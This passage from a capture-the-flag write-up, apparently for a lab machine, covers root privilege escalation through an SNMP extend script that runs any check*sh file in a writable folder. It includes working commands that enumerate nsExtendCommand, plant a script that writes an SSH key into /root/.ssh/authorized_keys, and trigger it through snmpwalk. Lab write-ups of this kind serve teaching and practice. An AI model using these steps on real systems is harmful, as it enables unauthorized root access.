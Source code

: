 looking the acl permissions we can see that user "michelle" have `#effective:-wx` that means user "michelle" can write&execute but can't read.

## SNMP Extend Command

SNMP executes `/usr/bin/monitor` script.
```bash
❯ snmpwalk -v2c -c public 10.10.10.241 nsExtendCommand
NET-SNMP-EXTEND-MIB::nsExtendCommand."monitoring" = STRING: /usr/bin/monitor
```

* `nsExtendCommand` stand for "full path of the command binary (or script) to run"  and there is only one binary in this snmp.
* Net-SNMP agent provides a method to extend SNMP in Cumulus Linux via the NET-SNMP-EXTEND-MIB. using this MIB to query shell scripts specified by the extend directive in `/etc/snmp/snmpd.conf`.


That script executes all/any script from `/usr/local/monitoring` directory with `check*sh`
```bash
#!/bin/bash

for script in /usr/local/monitoring/check*sh
do
    /bin/bash $script
done
```

We can exploit this by create reverse shell script in `/usr/local/monitoring/` and than execute it from snmp.

__First,__ create bash script in `/usr/local/monitoring` folder
```bash
echo -e '#!/bin/bash\n\necho "ssh-rsa <public_key>" > /root/.ssh/authorized_keys' > /usr/local/monitoring/check-pwn.sh
```

__Second,__ execute snmp extend script `/usr/bin/monitor` with [nsExtendObjects](https://oidref.com/1.3.6.1.4.1.8072.1.3.2) from `NET-SNMP-EXTEND-MIB`
* use MIB `nsExtendObjects` if direct OID is not work.
* And with that we don't have to run complete snmpwalk and directly execute snmp extend scripts.

```bash
snmpwalk -v2c -c public 10.10.10.241 1.3.6.1.4.1.8072.1.3.2
```

*Don't know why but nothing else is working for me besides echoing ssh key* **Reason: [SElinux](https://www.redhat.com/en/topics/linux/what-is-selinux); ippsec [explained](https://www.youtube.com/watch?v=IF5uhe1qR2I&t=3380s)**

